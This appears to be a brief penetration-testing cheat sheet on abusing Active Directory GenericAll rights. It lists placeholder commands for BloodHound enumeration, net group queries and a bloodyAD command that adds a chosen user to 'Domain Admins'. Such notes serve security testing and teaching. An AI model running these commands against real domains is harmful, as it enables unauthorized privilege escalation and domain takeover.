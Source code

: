 # Unix Shell

## 01 - Detect

> [!IMPORTANT] Conditions
> Write the conditions...

```
$ bloodhound-python -u <username> -p <password> -ns <domain_controller_IP> -d <domain>.<tld> -c All
```

## 02 - Exploit

```
rpcclient $>
```

```
$ net <ads | rpc> group members "Domain Admins" -U <domain>/"<target_username>%<password>" -S <IP>
```

```
$ bloodyAD --host "<domain_controller_IP>" -d "<domain>.<tld>" -u "<username>" -p "<password>" add groupMember "Domain Admins" "<target_username>"
```

---
## References

- [Hacking Articles: Abusing AD-DACL - Generic ALL Permissions](https://www.hackingarticles.in/abusing-ad-dacl-generic-all-permissions/)